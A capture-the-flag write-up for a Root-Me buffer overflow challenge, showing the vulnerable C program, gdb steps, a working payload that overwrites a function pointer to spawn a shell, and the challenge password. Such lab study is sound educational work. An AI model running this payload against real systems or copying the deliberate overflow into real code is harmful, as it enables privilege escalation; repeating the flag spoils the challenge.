 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502136-47d2b4bd-50fe-47af-80a9-e3c294bfbf01.png)

## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```


- As a normal code flow, the program will point to the address of **sup()** function and execute it. Using gdb and disassembler the **main()** function and save the address of **shell (0x08048516)** <br>
- `void (*func)()=sup;` is a declaration of a function pointer and point to **sup** function. We can overflow **buffer** to overwrite this pointer and point again to **shell** function.


![image](https://user-images.githubusercontent.com/48288606/146747232-e78b70c2-9af0-413a-a20d-2b39be64cf96.png)
 
- Set breakpoint at **fgets function**. Run the program
```
gdb-peda$ b*main+0
Breakpoint 1 at 0x8048584
```

-  Input `aaaaaaaa`and watch the value. 

![image](https://user-images.githubusercontent.com/48288606/146749346-4e182441-effa-4519-8d5a-09a2d4452c7a.png)

- Our input's at **0xbffffa9c**. Now watch the return address of **sup function**.

![image](https://user-images.githubusercontent.com/48288606/146752691-aa64fb0d-7b34-4ea0-ab63-1097ee23671f.png)


- **sup** is at **0xbffffb1c**. Calculate the distance from **buffer** to address of **sup** function.
```
gdb-peda$ p/d 0xbffffb1c-0xbffffa9c
$5 = 128
```

### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Then read the `.passwd` file.

Password: B33r1sSoG0oD4y0urBr4iN

